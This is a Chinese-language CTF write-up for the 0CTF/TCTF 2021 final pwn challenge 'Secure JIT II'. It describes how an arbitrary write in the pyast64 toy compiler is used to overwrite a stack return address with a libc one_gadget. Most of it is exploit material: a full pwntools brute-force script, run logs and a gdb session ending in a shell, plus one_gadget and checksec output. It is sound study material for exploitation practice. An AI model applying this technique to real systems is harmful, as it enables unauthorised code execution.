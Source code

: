 ```yaml
---
title:  0CTF / TCTF 2021 final - Secure JIT II 
categories:
- CTF/Pwn
tags: 
---
```


> 和xkt共同完成，题目是一个用python3运行的简易python解释器，可以任意地址写，读内存的功能被patch了。比赛时因为没发现ubuntu18.04默认的python3是没开PIE且GOT表可写的，所以采取了野蛮的解法：任意地址写，可以泄露栈地址，所以直接写栈上的main函数返回地址为one_gadget，复用main函数返回到的libc_start_main地址的高字节，写低三字节，需要爆破1.5字节，概率为1/4096。

附件：[securejit2.tgz](https://xuanxuanblingbling.github.io/assets/attachment/securejit2.tgz)

- [https://benhoyt.com/writings/pyast64/](https://benhoyt.com/writings/pyast64/)
- [https://github.com/benhoyt/pyast64](https://github.com/benhoyt/pyast64)

本地exp如下，仅限ubuntu18.04，不太稳定，可能需要多次运行：

```python
from pwn import *

payload = '''
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000
'''

f = open("payload",'w')
f.write(payload)
f.close()

while(1):
    try:
        io = process(["python3","pyast64.py","payload"])
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        io.sendline("ls");io.recv()
        break
    except:
        io.close()

io.interactive()
```

1/4096，比较看人品，比赛时候远程5分钟就出了：

```python
➜  python exp.py
[+] Starting local process '/usr/bin/python3': pid 61825
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61825)
[+] Starting local process '/usr/bin/python3': pid 61835
[*] Stopped process '/usr/bin/python3' (pid 61835)
[+] Starting local process '/usr/bin/python3': pid 61855
[*] Stopped process '/usr/bin/python3' (pid 61855)
[+] Starting local process '/usr/bin/python3': pid 61863
[*] Process '/usr/bin/python3' stopped with exit code -6 (SIGABRT) (pid 61863)
[+] Starting local process '/usr/bin/python3': pid 61871
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61871)
[+] Starting local process '/usr/bin/python3': pid 61879
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61879)
[+] Starting local process '/usr/bin/python3': pid 61887
[*] Stopped process '/usr/bin/python3' (pid 61887)
[+] Starting local process '/usr/bin/python3': pid 61895
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61895)
[+] Starting local process '/usr/bin/python3': pid 61903
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61903)
[+] Starting local process '/usr/bin/python3': pid 61911
[*] Process '/usr/bin/python3' stopped with exit code -11 (SIGSEGV) (pid 61911)
[+] Starting local process '/usr/bin/python3': pid 61919
[*] Stopped process '/usr/bin/python3' (pid 61919)
[+] Starting local process '/usr/bin/python3': pid 61927
[*] Switching to interactive mode
core  entry  exp.py  flag  libc-2.27.so  payload  payloadback  pyast64.py  test
$  
```

gdb环境稳定getshell：

```python
➜  cat payload
def f():
    b = array(16)
    a = b + 2219
    a[0] = 0xaec41c * 0x100000 * 0x100000

➜  gdb -q --args python3 pyast64.py payload 
GEF for linux ready, type `gef' to start, `gef config' to configure
77 commands loaded for GDB 8.1.1 using Python engine 3.6
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from python3...(no debugging symbols found)...done.
gef➤  r
Starting program: /usr/bin/python3 pyast64.py payload
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
jit return: 0
process 46700 is executing new program: /bin/dash
$ ls
core  entry  exp.py  flag  libc-2.27.so  payload  pyast64.py  
$ 
```



只有0x10a41c这个gadget满足要求：

```python
➜  one_gadget libc-2.27.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

python3没开PIE：

```python
➜  cat /proc/version
Linux version 4.15.0-158-generic (buildd@lgw01-amd64-051) 
(gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) 
#166-Ubuntu SMP Fri Sep 17 19:37:52 UTC 2021

➜  checksec `which python3`
[*] '/usr/bin/python3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```